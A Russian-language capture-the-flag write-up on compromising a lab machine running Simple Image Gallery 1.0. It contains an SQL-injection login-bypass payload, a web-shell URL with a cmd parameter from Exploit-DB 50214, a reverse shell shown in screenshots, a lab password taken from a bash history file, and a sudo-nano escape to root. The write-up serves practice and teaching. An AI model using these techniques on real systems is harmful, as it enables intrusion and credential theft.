# Write-up: Simple Image Gallery

## Enumeration

Сканируем цель:

```bash
sudo nmap -sS -sV -sC --min-rate=1000 10.146.142.108
```

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
8080/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Simple Image Gallery System
```

Открытых портов — **3**.

## Port 80

На `80` стандартная страница Apache:



## Port 8080

На `8080` основной сайт с редиректом на `login.php`:



Пробуем SQL-инъекцию в логине:

```sql
' OR 1=1 -- -
```

Меня пускает:



CMS называется **Simple Image Gallery**.

Смотрим версию — **1.0**:



## Эксплоит

Для этой версии есть готовый эксплоит: [Exploit-DB #50214](https://www.exploit-db.com/exploits/50214).





Получаем ссылку на загруженный шелл:

```text
http://10.144.139.199/gallery/uploads/1795609020_TagogqpcjsajfeibbsmLetta.php?cmd=whoami
```

В `cmd` можно положить свой payload:



Готовим reverse shell с URL-encode:



Получаем reverse shell:



## Переход на mike

В `/var/backups/mike_home/backup/.bash_history` находим:

```text
sudo -lb3stpassw0rdbr0xx
```

Это пароль от `mike`:

```text
mike:b3stpassw0rdbr0xx
```



Заходим по SSH и забираем `user.txt`:



## PrivEsc

Проверяем `sudo`:

```bash
sudo -l
```

```text
User mike may run the following commands on ip-10-144-139-199:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```

Смотрим `/opt/rootkit.sh`:

```bash
cat /opt/rootkit.sh
```

```bash
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

case $ans in
   versioncheck)
       /usr/bin/rkhunter --versioncheck ;;
   update)
       /usr/bin/rkhunter --update;;
   list)
       /usr/bin/rkhunter --list;;
   read)
       /bin/nano /root/report.txt;;
   *)
       exit;;
esac
```

Запускаем:

```bash
sudo /bin/bash /opt/rootkit.sh
# read
```

`nano` открывает `/root/report.txt` от root. Из `nano` выходим в shell через `Ctrl+R`, `Ctrl+X` — и получаем командную строку от root:


Читаем `root.txt`:



## Хэш пароля админа

С правами root заходим в MySQL:

```bash
mysql -u root -p
```

И смотрим таблицу `users`:

```sql
SELECT * FROM users;
```

## Итоговая схема (Kill Chain)

`8080 → Simple Image Gallery 1.0` → `SQLi-логин (' OR 1=1 -- -)` → `Exploit-DB 50214 (upload shell)` → `RCE` → `/var/backups/mike_home/backup/.bash_history (mike:b3stpassw0rdbr0xx)` → `SSH` → `sudo rootkit.sh → nano → Ctrl+R, Ctrl+X → root` → `mysql users dump`